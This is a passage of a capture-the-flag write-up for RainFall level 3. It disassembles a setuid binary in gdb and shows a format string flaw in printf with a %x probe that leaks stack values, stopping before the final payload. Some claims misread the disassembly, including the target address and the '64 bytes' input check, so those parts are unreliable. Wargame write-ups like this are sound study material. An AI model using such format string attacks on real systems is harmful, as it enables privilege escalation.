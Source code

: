 # Level 3

like the previous level we have a benary file `level3` when we excute it wait for input and print it.

```c
level3@RainFall:~$ ./level3
can hack me
can hack me
level3@RainFall:~$

```

let check the binary file withh gdb and see what is going on

```c
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.

```

we can see that the main function call the function `v` so let check it

```c
(gdb) disassemble v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.

```

```c
(gdb) x/s 0x8048600
0x8048600:	 "Wait what?!\n"
(gdb) x/s 0x804860d
0x804860d:	 "/bin/sh"
```

as you see they read input with `fgets` and print it with `printf` and then they check if the input is 0x40 = 64 bytes, if equal they print with `fwrite` **Wait what?!** and then call `system` with the string `/bin/sh` else they leave the function.

so in this level we need to assign 64bit to the address `0x8049880` to get the shell.

we cant use `fgets` to do a buffer overflow because it check the input size and if it is bigger than 0x200 it will stop reading and return so we need to use `printf` to do the buffer overflow : **_format string attack_**.

[man 3 printf](https://man7.org/linux/man-pages/man3/printf.3.html) in Bug section :

**Code such as `printf(foo);` often indicates a bug, since foo may
contain a % character. If foo comes from untrusted user input,
it may contain %n, causing the printf() call to write to memory
and creating a security hole.**

in printf we had a `%n` that will write to memory, `%x` that print the value in hex , let check if we can use it.

```c
level3@RainFall:~$ ./level3
AAAABBBBCCCC %x %x %x %x %x %x
AAAABBBBCCCC 200 b7fd1ac0 b7ff37d0 41414141 42424242 43434343
```

let go in gdb and see what is going on
